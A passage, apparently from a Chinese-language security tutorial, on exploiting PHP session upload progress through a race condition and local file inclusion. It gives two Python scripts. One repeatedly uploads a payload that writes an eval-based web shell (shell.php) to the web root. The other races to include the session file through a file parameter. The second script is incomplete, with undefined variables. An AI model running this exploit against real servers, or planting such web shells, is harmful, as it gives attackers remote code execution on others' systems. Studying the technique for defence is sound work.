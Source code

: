 



### 问题二：

默认配置 session.upload_progress.cleanup = on 导致文件上传后，session文件内容立即清空。



这时候需要利用竞争，在session文件内容清空前进行包含利用。



上传脚本：

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Date    : 2019-07-26 21:31:53


import requests
import time
s = requests.session()
url = 'http://127.0.0.1/SessionUpload/upload.php'
phpsessid = 'tf9qmku8pjvsaobnukees5gu93'
while 1:
	data={
	"PHP_SESSION_UPLOAD_PROGRESS":(None,'<?php file_put_contents("./../www/shell.php","<?php @eval($_GET[a]);?>") ?>')
	}

	files = {
		
		"demo":("test.jpg","<?php eval($_POST[1]);?>","image/jpeg"),
		"submit":(None,"submit")
	}
	cookies={'PHPSESSID':phpsessid}
	r = s.post(url,files=files,data=data,cookies=cookies)
print r.text
```





包含脚本

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Date    : 2019-07-26 21:31:53


import requests
import time
session=''
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
        else:
            print("retry")
```

